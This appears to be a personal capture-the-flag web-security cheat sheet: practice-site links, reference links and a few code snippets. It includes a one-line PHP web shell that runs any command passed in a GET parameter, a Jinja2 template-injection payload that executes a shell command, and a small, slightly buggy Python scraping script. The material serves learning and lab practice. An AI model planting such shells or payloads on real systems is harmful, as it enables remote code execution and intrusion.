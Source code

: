 ## ► web

★ Best resources for web:
- https://portswigger.net/
- https://cheatsheetseries.owasp.org/

### Initial checks
- robots.txt
- git dumpster
- directory bruteforce

### Time wasters
- https://overthewire.org/wargames/natas/
- http://www.itsecgames.com/
- https://ctf.hacker101.com/
- https://www.hackthissite.org/
- http://www.dvwa.co.uk/

### SQL Injection
- https://github.com/Audi-1/sqli-labs/
- https://portswigger.net/web-security/sql-injection/cheat-sheet

### XSS
- http://xss-game.appspot.com/
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
### XXE
### Path Traversal
### PHP deserealization
### File Upload


#### Basic PHP shell

``` <?php echo system($_GET['c']); ?> ```

### Local File Inclusion

### Scraping things from web-pages

```
import requests
import re

url = "http://127.0.0.1"
s = requests.Session()

data = {"querybyte":"A","auth":69}
r = s.post(url,data)

gold = re.findall("Auth code: (\.\*)", r)[0]
print gold

```

### Server Side Template Injection

```{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}``` ```pico18/flaskcards```
<https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection>
